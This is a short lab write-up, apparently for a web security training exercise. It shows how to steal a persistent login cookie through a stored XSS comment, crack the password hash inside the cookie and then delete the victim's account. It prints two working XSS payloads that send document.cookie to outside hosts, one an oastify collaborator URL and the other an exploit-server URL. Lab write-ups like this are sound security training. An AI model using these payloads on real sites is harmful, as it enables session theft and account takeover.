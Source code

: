 In this lab, we can obtain the stay logged in cookie from an user, without knowing its password.
This cookie is base64 encoded and contains the hash of the password of the user, so we can decode it and crack the password of the user. The website is very vulnerable as it should not attach the password to the cookie.

How we obtain the stay logged in cookie? Well, it's just an XSS.

We add the comment with a XSS payload to exfiltrate `document.cookie`, which is the stay logged in cookie:
```javascript
<script> 
fetch('https://h0i6de4wth9eor4zipkzqrgek5qwen2c.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie }); 
</script>
```
We can also use the exploit server:
`<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`
![](imgs/cracking_password.png)

And we get the request with the cookie:
![](imgs/cracking_password-1.png)

Decode it, take the hash part and crack it:
![](imgs/cracking_password-2.png)

We can now log in as the user and delete the account:
![](imgs/cracking_password-3.png)
